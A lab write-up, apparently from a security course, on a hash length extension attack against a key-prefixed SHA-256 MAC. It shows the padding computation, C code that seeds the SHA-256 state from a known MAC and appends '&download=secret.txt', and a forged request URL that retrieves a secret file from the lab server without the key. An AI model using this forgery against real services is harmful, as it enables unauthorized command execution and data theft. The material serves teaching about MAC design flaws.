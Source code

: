 ## Task 3: The Length Extension Attack

In this task, the objective is to first generate a valid MAC for the request:

- `<key>:myname=<name>&uid=<uid>&lstcmd=1`

The following achieved that:

![validMAC](screenshots/validMac.png)

Next we need to construct the padding for the following message with a pair *<keir,uid>* obtained from *key.txt* and the name being my personal name in this case:

`123456:myname=JoaoSilva&uid=1001&lstcmd=1`

Length of message: 41 bytes

Padding: 64 bytes - 41 bytes = 23 bytes including 8 bytes of length field

Length of message in term of bits = 41decimal * 8 = 328 bits =bits in hex 0x0148


SHA256 will be performed in the following padded message:
 
"123456:myname=JoaoSilva&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x48"
 


`Padding: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%48`


Also, having the MAC of the original message, we can now produce a new MAC for the whole request with the extra download command, using the *length_ext.c* file:

```c
	// MAC of the original message M (padded) 
	//c97596378ef0314fdc0a8e48402c16f894167e77e5d5d302661d2bcb3a221182


	c.h[0] = htole32(0xc9759637);
	c.h[1] = htole32(0x8ef0314f);
	c.h[2] = htole32(0xdc0a8e48);
	c.h[3] = htole32(0x402c16f8);
	c.h[4] = htole32(0x94167e77);
	c.h[5] = htole32(0xe5d5d302);
	c.h[6] = htole32(0x661d2bcb);
	c.h[7] = htole32(0x3a221182);
            
```

```c
	// Append additional message
	SHA256_Update(&c, "&download=secret.txt", 20);
	SHA256_Final(buffer, &c);

```

New MAC produced:

![newMsgMAC](screenshots/newMsgMac.png)


Based on the *<mac>* calculated above, we can now construct a new request that includes the *download* command without using the secret key:

`http://10.9.0.80/?myname=JoaoSilva&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%48&download=secret.txt&mac=278dae05f1fa3eb5b39674bc369e6df2e4971d1d1356a7d8a21407cb46d9122b`

Sending this request using the browser, we achieved the objective, revealing the content of the secret.txt:

![secretRevealed](screenshots/Result.png)